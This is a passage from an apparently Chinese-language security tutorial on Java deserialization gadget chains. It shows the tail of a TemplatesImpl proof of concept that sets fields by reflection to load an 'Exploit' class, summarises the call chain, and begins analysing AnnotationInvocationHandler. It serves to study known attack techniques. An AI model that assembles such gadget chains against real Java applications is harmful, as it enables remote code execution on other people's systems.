 ```java

        Field name = TemplatesImpl.class.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(tmpl, "Exploit");  // 可以瞎填，不为空即可

        tmpl.getOutputProperties();
    }

    public static byte[] readClassFileToByteArray(String filePath) throws IOException {
        File file = new File(filePath);
        byte[] fileData = new byte[(int) file.length()];
        try (FileInputStream fis = new FileInputStream(file)) {
            int bytesRead = fis.read(fileData);
            if (bytesRead != fileData.length) {
                throw new IOException("Failed to read the complete file");
            }
        }
        return fileData;
    }
}
```

代码细节见于：`templatesImpl.java` 和 `Exploit.java`

最后总结一下TemplatesImpl的调用链：
```java
TemplatesImpl.getOutputProperties() -> newTransformer()
    -> getTransletInstance()
        -> defineTransletClasses()
            -> TransletClassLoader.defineClass()
        -> (AbstractTranslet) _class[_transletIndex].newInstance()
```

> 插一句：直接调用newTransformer，效果和调用getOutputProperties是一样的。

接下来的问题就是如何调用TemplatesImpl.getOutputProperties/newTransformer，这就引到了AnnotationInvocationHandler的讨论。

# AnnotationInvocationHandler

在CC1时，我们就已经接触到了AnnotationInvocationhandler，只不过当时关注点在Map.put/get这些方法的调用上，其实他的getMemberMethods方法也很有特点：
```java
private Method[] getMemberMethods() {
    // 主要作用就是获取this.type所有方法，然后返回
    if (this.memberMethods == null) {
        this.memberMethods = (Method[])AccessController.doPrivileged(new PrivilegedAction<Method[]>() {
            public Method[] run() {
                Method[] var1 = AnnotationInvocationHandler.this.type.getDeclaredMethods();
                AccessibleObject.setAccessible(var1, true);
                return var1;
            }
        });
    }

    return this.memberMethods;
}
```
getMemberMethods方法会获取this.type的所有方法，并返回。这个方法被equalsImpl调用，我们来看下：
